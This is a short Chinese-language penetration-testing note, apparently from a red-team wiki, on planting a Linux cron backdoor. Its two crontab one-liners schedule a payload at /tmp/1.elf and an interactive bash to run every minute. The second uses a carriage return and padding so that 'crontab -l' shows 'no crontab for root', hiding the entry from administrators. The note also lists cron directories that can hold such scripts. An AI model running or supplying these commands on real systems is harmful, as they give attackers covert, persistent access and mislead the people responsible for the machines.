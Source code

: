 ```yaml
---
title: Cron后门
id: zhfly3490
---
```


# Cron后门

**Cron介绍**

在Linux系统中，计划任务一般是由cron承担，我们可以把cron设置为开机时自动启动。cron启动后，它会读取它的所有配置文件（全局性配置文件/etc/crontab，以及每个用户的计划任务配置文件），然后cron会根据命令和执行时间来按时来调用工作任务。

**Cron后门**

> cron表达式在线生成：

http://qqe2.com/cron

```
(crontab -l;echo '*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i')|crontab - 
```

![image](../img/36ec548077b21e9f66ae28230ceb9b95.png)

这样执行会在crontab列表里出现，如果是如上执行的话，管理员执行crontab -l就能看到执行的命令内容不是特别隐蔽。

那么就有了一个相对的高级用法，下面命令执行后会显示”no crontab for root”。其实就达到了一个隐藏的效果，这时候管理员如果执行crontab -l就会看到显示”no crontab for root”。

```
(crontab -l;printf "*/1 * * * * /bin/bash /tmp/1.elf;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab - 
```

![image](../img/34c64f7de286dc5532afd9735128501e.png)

实际上是他将cron文件写到文件中。/var/spool/cron/crontabs/root 。而crontab -l就是列出了该文件的内容。

通常cat是看不到这个的，只能利用less或者vim看到，这也是利用了cat的一个缺陷，后面会讲到。

![image](../img/093977426a45e11f5408fa7927d234d2.png)

/etc/cron.d/ /etc/cron.daily/ /etc/cron.weekly/ /etc/cron.hourly/ /etc/cron.monthly/ 这几个路径都可以存放cron执行脚本,对应的时间不同。